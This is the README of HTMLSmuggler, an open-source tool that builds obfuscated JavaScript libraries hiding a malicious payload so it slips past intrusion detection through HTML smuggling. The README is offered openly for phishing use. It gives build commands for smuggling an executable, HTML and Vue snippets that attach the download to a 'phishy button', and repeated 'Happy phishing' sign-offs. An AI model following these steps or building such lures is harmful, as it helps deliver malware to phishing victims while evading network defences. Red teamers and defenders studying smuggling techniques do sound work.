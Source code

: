 # HTMLSmuggler ✉️

[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://opensource.org/licenses/MIT)

HTMLSmuggler - JS payload generator for IDS bypass and payload delivery via HTML smuggling.

## Description

The full explanation what is HTML Smuggling may be found [here](https://outflank.nl/blog/2018/08/14/html-smuggling-explained/).

The primary objective of HTML smuggling is to bypass network security controls, such as firewalls and intrusion detection systems, by disguising malicious payloads within seemingly harmless HTML and JavaScript code. By exploiting the dynamic nature of web applications, attackers can deliver malicious content to a user's browser without triggering security alerts or being detected by traditional security mechanisms. Thanks to this technique, the download of a malicious file is not displayed in any way in modern IDS solutions.

The main goal of HTMLSmuggler tool is creating an independent javascript library with embedded malicious user-defined payload. This library may be integrated into your phishing sites/email html attachments/etc. to bypass IDS and IPS system and deliver embedded payload to the target user system. An example of created javascript library may be found [here](examples/html/payload.umd.js).

## Features

* Built-in highly configurable JavaScript obfuscator that fully hides your payload.
* May be used both as an independent JS library or embedded in JS frameworks such as React, Vue.js, etc.
* The simplicity of the template allows you to add extra data handlers/compressions/obfuscations.

## Installation

1. [Install yarn](https://classic.yarnpkg.com/lang/en/docs/install/) package manager.
2. Install dependencies:

    ```bash
    yarn
    ```

3. Read help message.

    ```bash
    yarn build -h
    ```

    ```text
    Options:
      -p, --payload <string>   Path to payload file you want to smuggle
      -n, --name <string>      Name of file, that would be downloaded
      -t, --type <string>      Contet-Type of downlonaded file (default: "application/octet-stream")
      -f, --function <string>  Name of exported function (default: "download")
      -c, --compress           Enable payload compression (gzip)
      -h, --help               display help for command
    ```

## Usage

### Preparation steps

1. Modify (or use my) [javascript-obfuscator options](https://github.com/javascript-obfuscator/javascript-obfuscator#javascript-obfuscator-options) in `obfuscator.js`, my preset is nice, but very slow.
2. Compile your javascript payload:

    ```bash
    yarn build -p /path/to/payload -n file.exe -t "application/octet-stream" -c
    ```

3. Get your payload from `dist/payload.esm.js` or `dist/payload.umd.js`. After that, it may be inserted into your page and called with `download()` (or custom specified with `-f` flag) function.

> `payload.esm.js` is used in `import { download } from 'payload.esm';` imports (ECMAScript standart).
>
> `payload.umd.js` is used in html script SRC and `require('payload.umd');` imports (CommonJS, AMD and pure html).

### Pure HTML example

A full example may be found [here](examples/html/).

1. Do [preparation steps](#preparation-steps).
2. Import created script to html file (or insert it inline):

    ```html
    <head>
      <script src="payload.umd.js"></script>
    </head>
    ```

3. Call `download()` function from body:

    ```html
    <body>
      <button onclick="download()">Some phishy button</button>
    </body>
    ```

4. Happy phishing :)

### VueJS example

A full example may be found [here](examples/vuejs/).

1. Do [preparation steps](#preparation-steps).
2. Import created script to vue file:

    ```vue
    <script>
      import { download } from './payload.esm';
    </script>
    ```

3. Call `download()` function:

    ```vue
    <template>
      <button @click="download()">Some phishy button</button>
    </template>
    ```

4. Happy phishing :)

## FAQ

**Q**: I have an error `RangeError: Maximum call stack size exceeded`, how to solve it?

**A**: This [issue described here](https://github.com/javascript-obfuscator/javascript-obfuscator/issues/89). To fix it, try to disable `splitStrings` in `obfuscator.js` or make smaller payload (it's recommended to use up to 2 MB payloads because of this issue).

---

**Q**: Why does my payload build so long?

**A**: The bigger payload you use, the longer it takes to create a JS file. To decrease time of build, try to disable `splitStrings` in `obfuscator.js`. Below is a table with estimated build times using default `obfuscator.js`.

| Payload size | Build time |
| --- | --- |
| 525 KB | 53 s |
| 1.25 MB | 8 m |
| 3.59 MB | 25 m |
